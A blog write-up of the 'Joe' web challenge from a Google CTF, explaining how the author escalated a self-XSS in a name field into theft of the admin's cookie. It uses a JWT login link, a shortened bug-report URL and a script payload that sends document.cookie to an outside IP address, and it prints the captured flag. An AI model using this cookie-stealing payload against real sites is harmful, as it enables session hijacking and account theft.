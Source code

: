```yaml
---
layout: post
title: Write For Joe: google CTF
published: true
---
```

## Joe Challange writeup: Google ctf

Joe was the first of five puzzles in the Web category, and the only one classified as Easy. In essence, the challenge entailed the following:

_If you can find a vulnerability that makes it possible to steal the cookies of the administrator, we will reward you with a valuable flag:_

[Challenge url](https://joe.web.ctfcompetition.com)

![Joe_screenshot.png]({{site.baseurl}}/_posts/Joe_screenshot.png)

Initial reconnaissance led me to the following features.


- Name-changing
- Session and Login handling
- Submitting bug report to admin.

Another interesting point was that if we try to use the link provided for admin login then we getting the following result.

![joe_admin_login.png]({{site.baseurl}}/_posts/joe_admin_login.png)



As we can see in the above responce that the admin have a cookie named as flag and it's required for logging in as an admin. Now we just need to figure out a way to steal the admin cookie.

Cookie theft is often facilitated through XSS (cross-site scripting), so I asked Joe to let me rename you to an injection payload:

**<svg/onload=alert(document.domain)>**


Refreshing the page led to successful self XSS
![joe_test.png]({{site.baseurl}}/_posts/joe_test.png)


But this payload is executing in self context a.k.a. "selfxss".Now I proceeded to focus on leveraging this against the "administrator" user. Reporting a bug to admin seems an intersting attack surface for this purpose. we can use this feature to report a bug by supplying a valid report URL (prefixed with HTTP/S) and CAPTCHA response.


But after trying a few times I am still not able to exploit this feature. So i decided to take a look on the login feature. where i found [JSON Web Token](https://jwt.io/) parameter in a login request:

![Screenshot from 2017-07-03 15-57-08.png]({{site.baseurl}}/_posts/Screenshot from 2017-07-03 15-57-08.png)



**_JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object._**



I found that the above URL could be used to log into my account with a valid JWT, and proceeded to change Joe's name to the following payload

**<script>img = new Image(); img.src="https://139.59.74.204/cookie?q="+document.cookie;alert("done");</script>**

![selfxss.png]({{site.baseurl}}/_posts/selfxss.png)

As you can see in above image that the payload executed successfully. Now all i need is to issue a bug report for admin and sent my tokenised URL to Joe, but this url was rejected due to excess length.


![joe_url_too_big.png]({{site.baseurl}}/_posts/joe_url_too_big.png)

So i used google's link shortner service and sent the new url as a bug report. Which is get accepted successfully.

![Screenshot from 2017-07-03 15-59-36.png]({{site.baseurl}}/_posts/Screenshot from 2017-07-03 15-59-36.png)

Now all i needed is to check the access log of apache that is running on my VPS.
![joe_flag.png]({{site.baseurl}}/_posts/joe_flag.png)

And this way i got the access of admin's flag cookie.

		flag=CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!};

